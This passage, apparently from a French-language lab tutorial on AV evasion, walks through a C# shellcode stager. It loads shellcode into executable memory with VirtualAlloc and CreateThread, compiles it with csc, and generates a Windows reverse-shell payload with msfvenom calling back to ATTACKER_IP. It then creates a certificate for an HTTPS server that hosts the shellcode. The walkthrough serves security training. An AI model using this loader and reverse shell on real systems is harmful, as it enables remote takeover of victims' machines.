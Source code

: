 ```
UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);
```

Maintenant que nous avons une copie du shellcode allouée dans un bloc de mémoire exécutable, nous utilisons la `CreateThread()`fonction pour générer un nouveau thread sur le processus en cours qui exécutera notre shellcode. Le troisième paramètre passé à CreateThread pointe vers `codeAddr`, où notre shellcode est stocké, de sorte que lorsque le thread démarre, il exécute le contenu de notre shellcode comme s'il s'agissait d'une fonction normale. Le cinquième paramètre est défini sur 0, ce qui signifie que le thread démarrera immédiatement.

Une fois le thread créé, nous appellerons la  `WaitForSingleObject()` fonction pour indiquer à notre programme actuel qu'il doit attendre la fin de l'exécution du thread avant de continuer. Cela empêche notre programme de se fermer avant que le thread shellcode n'ait la possibilité de s'exécuter :

```
IntPtr threadHandle = IntPtr.Zero;
UInt32 threadId = 0;
IntPtr parameter = IntPtr.Zero;
threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

WaitForSingleObject(threadHandle, 0xFFFFFFFF);
```

Pour compiler le code, nous vous suggérons de le copier sur une machine Windows sous forme de fichier appelé staged-payload.cs et de le compiler avec la commande suivante :

PowerShell

```
PS C:\> csc staged-payload.cs
```

Utiliser notre stager pour exécuter un shell inversé

Une fois notre charge utile compilée, nous devrons configurer un serveur Web pour héberger le shellcode final. N'oubliez pas que notre stager se connectera à ce serveur pour récupérer le shellcode et l'exécuter en mémoire sur la machine victime. Commençons par générer un shellcode (le nom du fichier doit correspondre à l'URL dans notre stager) :

Boîte d'attaque

```
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7474 -f raw -o shellcode.bin -b '\x00\x0a\x0d'
```

Notez que nous utilisons le format brut pour notre shellcode, car le stager chargera directement tout ce qu'il télécharge en mémoire.

Maintenant que nous avons un shellcode, configurons un simple serveur HTTPS. Tout d'abord, nous devrons créer un certificat auto-signé avec la commande suivante :

Boîte d'attaque

```
user@AttackBox$ openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
```
